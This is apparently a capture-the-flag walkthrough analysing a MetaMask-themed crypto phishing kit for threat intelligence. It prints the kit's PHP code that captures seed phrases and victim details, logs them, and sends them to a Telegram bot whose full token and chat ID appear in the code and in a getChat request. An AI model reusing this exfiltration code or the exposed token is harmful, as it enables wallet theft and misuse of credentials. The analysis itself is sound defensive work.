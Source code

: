 ```yaml
---
title: "GrabThePhisher"
classes: wide
header:
  teaser: /assets/images/Covers/GrabThePhisher.jpeg
ribbon:   Green
description: "A Walkthrough to the Cyberdefenders blue team lab focusing on Threat Intel and Reverse Engineering."
categories:
  - Reverse Engineering
toc: true
---
```




# [**GrabThePhisher**](https://cyberdefenders.org/blueteam-ctf-challenges/95/)
## **Scenario**

An attacker compromised a server and impersonated `https://pancakeswap.finance/`, a decentralized exchange native to BNB Chain, to host a phishing kit at `https://apankewk.soup.xyz/mainpage.php`. The attacker set it as an open directory with the file name `pankewk.zip`. 

Provided the phishing kit, you as a soc analyst are requested to analyze it and do your threat intel homework.

**Author:** Milann SHRESTHA     
**Difficulty:** Easy 

## Walkthrough
We start by unzipping the file named `c75-GrabThePhisher.zip`, which has been provided, using `cyberdefenders.org` as password.

### **Q1:** Which wallet is used for asking the seed phrase?

After decompressing, we are left with some files including an HTML file, exploring the content we see some wallets, only one of these wallets matches 

![alt text](/assets/images/reverse-engineering/GrabThePhisher/wallets.png)

Exploring the code, We see that only one wallet that has a "onclick" event for its buttons is `MetaMask` which uses JavaScript (vib(1); jj2 = true; jj = true;). This is commonly designed for asking the seed phrase.

![alt text](/assets/images/reverse-engineering/GrabThePhisher/index-3.png)
![alt text](/assets/images/reverse-engineering/GrabThePhisher/index-1.png) 
![alt text](/assets/images/reverse-engineering/GrabThePhisher/index-2.png)

>**Answer:** `Meta****`

___

### **Q2:** What is the file name that has the code for the phishing kit?

Opening the Metamask folder, there are three files: 
- Fonts
- index.html
- metamask.php

Inside the `metamask.php`, we see thee following code:

```php
$date = date("m.d.Y");
$message = "<b>Welcome 2 The Jungle </b> 
    
<b>Wallet:</b> Metamask
<b>Phrase:</b> <code>" . $_POST["data"] . "</code>
<b>IP:</b> " .$_SERVER['REMOTE_ADDR'] . " | " .$geo. " | " .$city. "
<b>User:</b> " . $_SERVER['HTTP_USER_AGENT'] . "";
```
This constructs an HTML-formatted message containing:
- The wallet type (MetaMask is hardcoded).
- The recovery phrase entered by the victim `$_POST["data"]`.
- The attacker captures this phrase, which can be used to take full control of the victim’s wallet.
- The IP address, geolocation (country and city), and the user-agent string (browser and device information).

So, this is the file that  has the code for the phishing kit.

>**Answer:** `Meta****.php`

___

### **Q3:** In which language was the kit written?

>**Answer:** `PHP`

___


### **Q4:** What service does the kit use to retrieve the victim's machine information?

At the beginning the code, we see the following block:

```php
$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
$array = json_decode($request);
$geo = $array->country->name_en;
$city = $array->city->name_en;
```

This block of code uses the `Sypex Geo` API to retrieve the geolocation of the user based on their IP address `$_SERVER['REMOTE_ADDR']`, The country and city names are extracted and stored in $geo and $city.

>**Answer:** `Sy*** G**`

___

### **Q5:** How many seed phrases were already collected?

later in the code, we see this block:

```php
$_POST["import-account__secret-phrase"]. $text = $_POST['data']."\n";
@file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);	
```

Which is used to ensures the attacker has a backup of the stolen phrases, the recovery phrase `$_POST['data']` is also logged locally in a file `log.txt` on the server.

Now, we go the `log.txt`, we see that it has 3 already collected phrases:

![alt text](/assets/images/reverse-engineering/GrabThePhisher/logs.png)

>**Answer:** `3`

___

### **Q6:** Write down the seed phrase of the most recent phishing incident?

>**Answer:** `father also recycle ******** ******** ******** ******** ******** ******** ******** ********`

___

### **Q7:** Which medium had been used for credential dumping?

The following block of code uses the `sendTel()` function to send a crafted message to a Telegram chat.

The Telegram Bot API is used here. The bot token `$token` and chat ID `$id` are hardcoded.

It constructs the Telegram API URL and uses `file_get_contents()` to send the message via the bot, delivering the stolen information (recovery phrase, IP, etc.) to the attacker's Telegram account.

```php
sendTel($message);  
	
function sendTel($message){
    $id = "5442785564"; 
    $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
    $filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
    file_get_contents($filename);
```

>**Answer:** `Tele****`

___

### **Q8:** What is the token for the channel?

>**Answer:** `5457463144:AAG8t4k7e2e************************`

___

### **Q9:** What is the chat ID of the phisher's channel?

>**Answer:** `5442******`

___

### **Q10:** What are the allies of the phish kit developer?

The attacker had fingerprinted his code with the following greeting message:

```php
/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
 */
```

>**Answer:** `j1j1b1s@****`

___

### **Q11:** What is the full name of the Phish Actor?

Using the following request to the getChat method:

```php
https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat?chat_id=5442785564
```

The response is:

![alt text](/assets/images/reverse-engineering/GrabThePhisher/api_response.png)

>**Answer:** `Mar*** Aure****lius****`

___

### **Q12:** What is the username of the Phish Actor?

>**Answer:** `pumpkin****`


___
___

<p align="center"><span style="color:#00FFFF;">THE END</span></p>


___
___